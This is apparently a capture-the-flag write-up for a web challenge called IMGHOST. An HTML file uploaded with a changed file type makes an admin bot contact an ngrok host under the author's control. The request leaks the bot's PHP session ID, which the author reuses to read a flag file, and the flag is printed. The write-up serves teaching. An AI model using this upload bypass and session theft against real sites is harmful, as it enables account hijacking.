 # IMGHOST

Points: 100

I wasn't able to solve this in time, so this write-up is based on the solution
from the author.

At first glance, this looks like an XSS challenge. However, the weird thing is
the `object` tag.

If we try to send JS in a fake PNG, it doesn't execute, which was where I got
stuck.

But it turns out that you can change the file type from the selector.
Using this payload in `inj.htm` and modifying the request to use a filetype of
`htm`, it loaded successfully in the `object` tag.
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta name="viewport" content="width=device-width" />
        <title>Hello</title>
    </head>
    <body>
        <h1>Hello</h1>
        <img src="http://6f97f1b2d483.ngrok.io/idiot.png"/>
    </body>
</html>
```

After clicking `Report Abuse`, the admin bot accessed this page. I got this
request:
```
http://web/uploads/kUtKCFpFlfcYV4ZMZqXP.htm?
  lang=en&
  ref=website&
  pd=673e4a8d240d0ba0a0cdb3db6ec8af65&
  u=5f9f0cce4332e&
  client=pybu3zheoyeupyzgodcrxf7oqc& <- this is set to the phpsessid!
  method=direct&
  t=1604259022
```

After setting my `phpsessid` cookie to `pybu3zheoyeupyzgodcrxf7oqc` and
navigating to the home page, I was able to see a file called `flag.txt`.

This gave me:
```
CSR{N1C3_4ND-E4ZY-W4snT-1T?-:)}
```

---

Note:
The source code `file.php` can be downloaded, but I didn't realize this.
